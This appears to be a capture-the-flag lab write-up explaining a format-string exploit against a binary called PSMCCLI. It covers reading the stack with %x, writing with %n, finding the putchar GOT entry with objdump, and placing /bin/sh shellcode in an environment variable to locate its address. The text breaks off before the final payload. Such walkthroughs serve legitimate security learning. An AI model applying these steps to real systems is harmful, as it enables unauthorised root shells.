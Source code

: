 compile on “pinksecmanagement”

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553824228027_image.png)


gcc compile:

    gcc -o getenvaddr getenvaddr.c; chmod +x getenvaddr

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553824324954_image.png)


Current location (sanity check):

1. We know we have direct memory access using the `%x` and we can print any memory location on the stack
2. We can write to any location on the stat using `%n` which will count the characters printed to location.


----------

Using `objdump`  we can now combine these two vectors and overwrite the `putchar` and put our shell code to be called instead.


    objdump -R PSMCCLI

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553824679252_image.png)


the pointer for putchar is located at `0804a1c`.

add our shellcode as a variable and find our address to write with getenvaddr

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553825122654_image.png)



- Memory address: `0x0804a1c`
- Address to put shellcode: `0xbfffedd`


----------

Moved compile `getenvaddr` to `/tmp` and rand the rest of the commands from this directory.

Add 23byte shellcode for `/bin/sh` to an environment variable:
shell storm link: http://shell-storm.org/shellcode/files/shellcode-827.php 

    export SPAWN=$(python -c "print '[shellcode]'")

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553879848629_image.png)


Next, locate where the variable will be located in memory during the execution of the binary with `getenvaddr`

    ./getenvaddr SPAWN /usr/local/bin/PSMCCLI

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553879932771_image.png)
